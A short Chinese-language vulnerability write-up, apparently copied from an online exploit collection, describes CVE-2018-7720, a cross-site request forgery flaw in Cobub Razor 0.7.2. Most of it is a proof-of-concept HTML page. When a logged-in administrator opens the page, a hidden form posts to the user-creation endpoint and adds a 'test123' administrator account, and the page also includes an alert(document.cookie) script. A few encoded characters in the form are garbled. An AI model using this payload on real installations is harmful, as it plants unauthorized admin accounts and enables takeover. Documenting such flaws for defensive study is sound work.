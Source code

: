 # （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞

> 原文：[http://book.iwonder.run/0day/Cobub Razor/CVE-2018-7720.html](http://book.iwonder.run/0day/Cobub Razor/CVE-2018-7720.html)

## 一、漏洞简介

Cobub Razor 0.7.2 存在跨站请求伪造漏洞，管理员登陆后访问特定页面可增加管理员账号。保存如下利用代码为 html 页面，打开页面将增加 test123/test 的管理员账号。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<body>
  <script>alert(document.cookie)</script>
    <form action="http://0-sec.org/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

